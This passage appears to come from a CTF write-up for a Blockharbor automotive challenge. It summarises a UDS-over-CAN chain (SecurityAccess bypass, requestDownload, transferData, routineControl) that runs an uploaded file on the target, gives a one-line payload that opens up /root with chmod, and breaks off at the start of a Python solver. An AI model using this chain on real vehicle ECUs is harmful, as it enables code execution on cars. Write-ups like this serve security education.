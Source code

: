   <img alt="createFile" src="/assets/images/blockharbor-ctf/createFile.png" style="padding: 0;margin:0;">
  <em>createFile</em>
</p>


**Therefore, to summarize:**
1. Enter the programming session
2. Pass SecurityAccess using the level 5 code
3. Send requestDownload to allocate memory
4. Transfer the desired file content and file MD5 hash checksum to transferData
5. Run routineControl
6. The contents of the transferred file are created and executed in the /tmp/firmware path.

*Beautiful!*

Now, all that remains is to write the code.

The firmware file to be executed can be any code that directly reads the flag file, a reverse shell code, or a bind shell code, but I was too lazy, so I came up with a code as short as possible and hard-coded it in the CAN message.

The shellcode to be executed can be a one line as `#!/bin/ash\nchmod -R 777 /root`, and the entire solver code is as follows.

```python
import can
import struct
from randcrack import RandCrack

def solver():
    canInterface = "vcan0"
    bus = can.interface.Bus(channel=canInterface, bustype="socketcan")

    def sendAndRecv(data):
        msg = can.Message(arbitration_id=0x7e0, data=data, is_extended_id=False)
        bus.send(msg)
        print(f"Send: {msg}")
        res = bus.recv(timeout=0.1)
        print(res)
        return res
```